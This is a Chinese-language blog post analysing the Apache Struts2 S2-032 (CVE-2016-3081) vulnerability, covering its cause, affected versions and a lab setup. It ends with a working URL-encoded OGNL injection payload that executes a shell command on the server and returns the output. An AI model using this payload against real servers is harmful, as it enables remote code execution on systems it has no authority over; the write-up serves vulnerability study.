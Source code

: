 ```yaml
---
layout: post
title: "S2-032"
subtitle: 'S2-032漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十一篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-032漏洞,又名CVE-2016-3081漏洞

> 在Struts2框架中,开启了动态方法调用(Dynamic Method Invocation)时,可使用method:<name>的方式来调用名字是<name>的方法,这个方法将会进行OGNL表达式计算,从而导致导致代码执行漏洞.method方法的实现还是在S2-016提到过的DefaultActionMapper类,DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法


> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-032)

#### 漏洞成因

> 在Struts2框架中,开启了动态方法调用(Dynamic Method Invocation)时,可使用method:<name>的方式来调用名字是<name>的方法,这个方法将会进行OGNL表达式计算,从而导致导致代码执行漏洞.method方法的实现还是在S2-016提到过的DefaultActionMapper类,DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

#### 漏洞影响范围

>  Struts 2.3.20 - Struts Struts 2.3.28 (2.3.20.3和2.3.24.3除外)

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=whoami
```
